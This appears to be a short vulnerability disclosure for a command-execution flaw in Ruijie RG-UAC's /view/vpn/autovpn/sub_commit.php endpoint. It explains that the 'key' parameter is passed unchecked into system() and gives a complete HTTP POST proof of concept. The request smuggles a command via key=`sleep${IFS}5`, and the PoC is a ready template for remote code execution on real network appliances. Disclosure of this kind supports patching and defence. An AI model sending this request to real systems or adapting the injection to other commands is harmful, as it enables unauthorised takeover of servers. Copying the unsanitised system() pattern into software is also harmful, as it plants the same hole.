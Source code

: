 Ruijie Network is a professional network manufacturer with a full range of network equipment products and solutions including switches, routers, software, security firewalls, wireless products, storage, etc.

There is a command execution vulnerability in Ruijie RG-UAC. Attackers exploit vulnerabilities to compromise servers.

official：https://www.ruijie.com.cn

version:1.0

path：/view/vpn/autovpn/sub_commit.php

Controllable parameters satisfy $_REQUEST["action"] == "delete", controllable parameters $_REQUEST["key"] are spliced into $lanfile, and finally brought into system to execute commands without any verification.
<img width="578" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/70f9605b-042f-4ead-a455-fd397dc4ec09">

poc：
```
POST /view/vpn/autovpn/sub_commit.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=1d23daa201e803c5aae3518916bece0
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

key=`sleep${IFS}5`&action=delete
```

<img width="589" alt="图片" src="https://github.com/L1OudFd8cl09/CVE/assets/171104034/f1ec62b6-7f26-4cd5-870f-fd883bd04c4c">
